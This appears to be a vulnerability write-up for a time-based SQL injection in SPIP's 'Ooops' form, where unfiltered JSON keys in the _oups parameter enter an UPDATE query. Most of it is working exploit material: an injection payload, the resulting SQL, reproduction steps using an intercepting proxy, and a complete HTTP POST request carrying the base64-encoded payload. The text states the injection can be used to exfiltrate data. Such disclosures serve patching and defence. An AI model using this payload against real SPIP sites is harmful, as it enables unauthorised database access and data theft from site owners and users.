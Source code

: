 SPIP correctly filters the values of JSON keys, but it seems here that every key is processed as a column and put inside the SQL query (without filtering).

The `WHERE` part is actually important, and depends on the three keys "objet", "auteur" and "article". If one is missing, the `WHERE` becomes `WHERE 0=1` and prevents the SQLi to work correctly.

To build a valid query, we can send this payload, as "{{SQLi}}" key ;

`vu='' OR if((substr(user(),1,1) != 1), sleep(5), sleep(5)) #`  

The query becomes : 

```sql
UPDATE `spip`.spip_auteurs_liens
SET vu='' OR if((substr(user(),1,1) != 1), sleep(5), sleep(5)) #=''
WHERE id_auteur=1
	AND objet='article'
	AND id_objet=1
```

No possibility to stack queries with ";". 

We now have a valid time based SQLi injection, which can be used to exfiltrate data.


To reproduce :

- GET "/ecrire/?exec=article&id_article={{id_article}}&_oups=W3sib2JqZXQiOiJhcnRpY2xlIiwiYXV0ZXVyIjoiMSIsImFydGljbGUiOiIxIiwie3tTUUxJfX0iOiIifV0%3D"
- Prepare to intercept the next request (burp recommended)
- Click the "Ooops" button
- Intercept the request, send it to "repeater", or copy its content, then drop it
- Remove the `_oups` GET parameter from relative URL path
- You can now replace the `_oups` POST parameter with your base64 encoded JSON object


Be aware that, cookies and other POST parameters (CSRF tokens like) are needed to validate the request.
You may need to make this process every time you want to execute this payload, after a disconnect or a certain period of time, to get new valid tokens.

SAMPLE :

```http
POST /ecrire/?exec=article&id_article=1 HTTP/1.1
Host: {{IP}}:{{PORT}}
Content-Length: {{Content-Length}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: {{SPIP_COOKIES}}
Connection: close

var_ajax=form&exec=article&id_article=1&formulaire_action=editer_liens&formulaire_action_args={{formulaire_action_args}}&formulaire_action_sign={{formulaire_action_sign}}&visible=0&debutautl=&annuler_oups=Ooops&_oups=W3sib2JqZXQiOiJhcnRpY2xlIiwiYXV0ZXVyIjoiMSIsImFydGljbGUiOiIxIiwidnU9JycgT1IgaWYoKHN1YnN0cih1c2VyKCksMSwxKSAhPSAxKSwgc2xlZXAoNSksIHNsZWVwKDUpKSAjIjoiIn1d
```
> _oups=[{"objet":"article","auteur":"1","article":"1","vu='' OR if((substr(user(),1,1) != 1), sleep(5), sleep(5)) #":""}]
